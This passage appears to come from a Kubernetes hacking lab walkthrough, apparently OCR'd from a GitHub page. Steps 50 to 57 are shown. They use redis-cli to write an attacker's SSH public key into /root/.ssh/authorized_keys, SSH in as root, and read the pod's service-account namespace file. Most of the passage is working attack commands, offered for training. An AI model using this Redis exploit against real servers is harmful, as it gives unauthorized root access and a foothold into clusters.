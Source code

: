     ```shell
    nc $sship 22
    ```

50. Hit the enter key to get the SSH server to close the netcat session.

    ```
    Hit the enter key
    ```

51. Run `ssh-keygen` to begin the creation of an SSH key.

    ```shell
    ssh-keygen -t RSA -C "crack@crack"
    ```

52. Hit the enter key three times to finish creating this SSH key.

    ```
    Hit the enter key
    Hit the enter key a second time
    Hit the enter key a third time
    ```

53. Run the classic Redis exploit.

    ```shell
    cd /root/.ssh
    (echo -e "\n\n"; cat id_rsa.pub ; echo -e "\n\n") >foo.txt
    alias rediscli="redis-cli -h $ip -p 45912"
    rediscli flushall
    cat foo.txt | rediscli -x set crackit
    rediscli config set dir /root/.ssh
    rediscli config set dbfilename "authorized_keys"
    rediscli save
    ```
 
54. Try to SSH into the container - this will work, but you'll see no prompt or even output for your commands. Don't worry.

    ```shell
    ssh -o "StrictHostKeyChecking=false" root@$sship
    ```

55. Run `bash -i` to get a more friendly environment.

    ```shell
    bash -i
    ```

56. Nice! You now have remote code execution in a new pod, called "cereal-redis". Check out what namespace it is in:

    ```shell
    cat /run/secrets/kubernetes.io/serviceaccount/namespace
    ```

57. We're in a new namespace called `cereals-rainbow-books`! OK, next explore the filesystem, listing files in the / directory in reverse timestamp order:
